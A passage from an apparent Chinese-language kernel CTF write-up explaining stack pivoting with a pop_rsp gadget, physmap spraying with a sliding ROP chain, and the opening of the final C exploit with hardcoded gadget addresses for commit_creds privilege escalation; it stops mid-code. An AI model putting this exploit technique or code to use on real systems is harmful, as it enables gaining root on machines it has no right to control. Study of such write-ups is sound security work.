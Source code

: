 ```c
    qmemcpy(
      (void *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 168),
      "arttnba3arttnba3arttnba3arttnba3arttnba3arttnba3",
      48);
    *(_QWORD *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 112) = 0x3361626E74747261LL;
```

但其实仅有两个寄存器也够用了，我们可以利用 `pop_rsp ; ret` 的 gadget 进行栈迁移，**将栈迁移到我们在用户空间所布置的恶意数据上**，随后我们直接在恶意数据靠后的位置布置提权降落回用户态的 rop chain 即可。

由于 buddy system 以页为单位进行内存分配，所以笔者也以页为单位进行 physmap spray，以求能消耗更多的物理内存，提高命中率，这里笔者懒得去计算偏移了，所以在每张内存页上布置的都是“三段式”的 rop chain，将我们跳转到 `pt_regs` 的 gadget 同时用作 slide code——

```
------------------------
add rsp, val ; ret 
add rsp, val ; ret 
add rsp, val ; ret 
add rsp, val ; ret
...
add rsp, val ; ret # 该gadget必定会命中下一个区域中的一条ret，之后便能平缓地“滑”到常规的提权 rop 上
------------------------
ret
ret
...
ret
------------------------
common root ROP chain
------------------------
```

### final exploit

最后的 exp 如下：

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

size_t  prepare_kernel_cred = 0xffffffff810c9540;
size_t  commit_creds = 0xffffffff810c92e0;
size_t  init_cred = 0xffffffff82a6b700;
size_t  pop_rdi_ret = 0xffffffff8108c6f0;
size_t  pop_rax_ret = 0xffffffff810115d4;
size_t  pop_rsp_ret = 0xffffffff811483d0;
size_t  swapgs_restore_regs_and_return_to_usermode = 0xffffffff81c00fb0 + 27;
size_t  add_rsp_0xe8_pop_rbx_pop_rbp_ret = 0xffffffff812bd353;
size_t  add_rsp_0xd8_pop_rbx_pop_rbp_ret = 0xffffffff810e7a54;
size_t  add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe;
size_t  ret = 0xffffffff8108c6f1;

void    (*kgadget_ptr)(void);
size_t  *physmap_spray_arr[16000];
size_t  page_size;
size_t     try_hit;
int     dev_fd;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus(void)
```